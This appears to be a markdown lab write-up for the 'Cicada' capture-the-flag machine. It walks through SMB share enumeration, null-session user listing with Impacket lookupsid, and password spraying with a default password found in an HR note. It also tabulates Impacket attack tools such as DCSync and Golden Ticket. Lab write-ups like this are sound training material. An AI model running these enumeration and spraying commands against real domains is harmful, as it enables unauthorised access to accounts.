

# CICADA

## Topics will be covered
   - Active Directory Enumeration and Privilege Escalation
   - Password Spraying
   - SeBackup Privilege Abuse
   - Pass-the-Hash Attack

## Enumeration and Exploitation tools :
- Nmap
- SMB
- Lookupsid
- Password Spraying 
- Enumerating Domain Users 
- Foothold
- Privilege Escalation 


### Nmap
--------------------------------------------------------------------------------
```bash
nmap -sV -Pn 10.10.11.35
```
Findings
- Kerberos (port 88)
- LDAP/S (ports 389, 636, 3268, 3269)
- Domain: cicada.htb
- Host: CICADA-DC.cicada.htb

** Note: As there is no web interface, the first thing we can check is the SMB shares.

### SMB shares
-----------------------------------------------------------------------------------------
```bash
crackmapexec - a popular tool to automate enumerating domains (including users, files/ directories, and shares)
```

Note : if we specify any user the results would be much more better
Lets take guest as user and no password.
```bash
crackmapexec smb cicada.htb -u 'guest' -p '' --shares
```

- We can see HR share and IPC$ shares are able to read by guest user.
--------------------------------------------------------------------------------------------------------------------
### Smbclient
```bash
smbclient  //cicada.htb/HR
```

- Let's get the notice from HR.txt to kali

- And lets try reading what's inside the note---it seems we have default password for 1st time login 


----------------------------------------------------------------------------------------------------------------------
### Impackets - Impacket is an open-source toolkit
- Common Attacks & Exploits

|Use Case      |Tool/Script     |Description|
| :---         |     :---:      | :--- |
|Pass-the-Hash (PtH)|psexec.py, wmiexec.py|Executes commands using NTLM hashes.|
|Pass-the-Ticket (PtT)|ticketConverter.py|Uses Kerberos tickets for lateral movement.|
|SMB Relay Attack|ntlmrelayx.py|Relays NTLM auth to other machines.|
|DCSync Attack|secretsdump.py|Extracts password hashes from Active Directory.|
|Golden Ticket Attack|ticketer.py|Forges Kerberos tickets for persistence.|
|lookupsid|impacket-lookupsid|To get the user|

### Post-Exploitation & Enumeration

| Tool          | Purpose                                   |
|---------------|-------------------------------------------|
| GetADUsers.py | Dumps AD user info via LDAP.             |
|smbclient.py   | Interacts with SMB shares (like smbclient).|
| smbmap.py     | Enumerates SMB shares and permissions.    |  
| mssqlclient.py | Executes SQL queries on MSSQL servers. |
| rpcdump.py     | Lists RPC endpoints on a target.         |

- Now lets try lookupsids from impackets with "guest" and "-no-passs" with (Attempts authentication without a password (null session).)
```bash
impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass 
```

- we find groups, users, and aliases within the domain

- To view SID's 
```bash
In cmd - wmic useraccount get name,sid
In power shell - Get-ADUser -Identity "Username" | Select-Object SID
In impackets lookupsid - impacket-lookupsid 'DOMAIN/user'@TARGET_IP
```
### Common Well-Known SIDs
- Windows has built-in SIDs for default accounts and groups:

| Tool          | Purpose                                   |Purpose                                   |
|---------------|-------------------------------------------|-------------------------------------------|
| S-1-5-21-domain-500 |Administrator   |Built-in admin account.|
| S-1-5-21-domain-501 |Guest          |Built-in guest account.|  
| S-1-5-21-domain-502 |Krbtgt         |Kerberos key distribution center (KDC).|
| S-1-5-21-domain-512 |Domain Admins  |Group of all domain administrators.      |
|S-1-5-21-domain-513|Domain  Users|Group of all authenticated users.|
|S-1-5-18|Local System|Built-in system account with high privileges.|
|S-1-5-32-544|Administrators|Local administrators group.|

- Coming back to our ad  - since we want a list of the users only we will separate them with small alteration as below

```bash
sed 's/.*\\\(.*\) (SidTypeUser)/\1/' 
.*\\: Matches everything up to and including the backslash (domain)
\(.*\): Captures the username (saved in group \1)
(SidTypeUser): Matches the trailing identifier
\1: Replaces entire line with just the captured username
```
- So the final command is
```bash
 impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass | grep 'SidTypeUser' | sed 's/.*\\\(.*\) (SidTypeUser)/\1/'
```


- Now lets create a user list text file and then using this and lets try the password-spray attack
### Password Spraying
---------------------------------------------------------------------------------------------------------------------------------------
- For password spraying we choosing crackmapexec only
```bash
crackmapexec smb cicada.htb -u user.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

- We can observe that the user michael is still using the old default password given by the AD

